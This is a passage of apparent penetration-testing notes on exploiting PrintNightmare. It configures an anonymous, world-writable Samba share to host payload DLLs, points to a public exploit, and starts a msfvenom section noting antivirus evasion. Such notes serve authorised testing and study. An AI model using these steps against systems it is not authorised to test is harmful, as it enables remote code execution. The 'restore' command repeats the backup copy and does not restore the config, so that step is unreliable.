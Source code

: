 ```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
```

Overwite the file with the following content

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /home/user/Documents/printnightmare/payloads/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```

Ensure the files are owned by nobody

```bash
sudo chown nobody:user -R /home/user/Documents/printnightmare/payloads/
sudo chmod -R 777 /home/user/Documents/printnightmare/payloads/
```

Restart the smbd service

```bash
sudo service smbd restart
```

{{% notice warning %}}
Don't forget to restore the SMB config and disable the service :)
{{% /notice %}}

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
sudo service smbd stop
```

## Outflanks implementation

https://github.com/outflanknl/PrintNightmare

Did not test this yet. But seems 'better' then the cube0x0 implementation

## Create DLL

MSVenom is you think AV is not a problem. Otherwise build something custom.

### MSFVenom
